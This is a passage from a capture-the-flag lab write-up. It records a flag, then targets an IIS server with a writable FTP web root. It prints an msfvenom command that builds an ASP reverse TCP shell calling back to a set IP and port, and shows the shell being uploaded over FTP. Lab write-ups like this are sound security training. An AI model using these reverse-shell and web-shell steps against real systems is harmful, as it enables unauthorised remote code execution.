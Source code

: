 ```bash
cat flag3.txt
```

**Flag 3 Content:**
```
dd04520d2c574e98ac278f232b340783
```

🚩 **Flag 3**: `dd04520d2c574e98ac278f232b340783`

### Step 4: Strategic Analysis

Having FTP write access to the web root directory is a significant security vulnerability. This means we can upload files that will be accessible via the web server, potentially including malicious code that could give us remote code execution.

## Challenge 4: Web Shell Upload and System Compromise

### Objective
*"Can you compromise the target machine and retrieve the C://flag4.txt file?"*

With FTP write access to the web root and IIS running ASP.NET, we can upload a web shell to achieve remote code execution.

### Step 1: Payload Generation

Since this is an IIS server supporting ASP.NET, we'll create an ASP reverse shell using msfvenom:

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.49.6 LPORT=1234 -f asp > shell.aspx
```

**Payload Generation Results:**
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of asp file: 38244 bytes
```

This creates a reverse shell payload in ASP format that will connect back to our machine when executed by the web server.

### Step 2: Payload Upload via FTP

Upload our malicious payload to the web root:

```bash
ftp> put shell.aspx
```

**Payload Upload Results:**
```
ftp> put shell.aspx 
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49489|)
125 Data connection already open; Transfer starting.
100% |******************************************************************| 38244        8.21 MiB/s    --:-- ETA
226 Transfer complete.
38244 bytes sent in 00:00 (5.50 MiB/s)
```
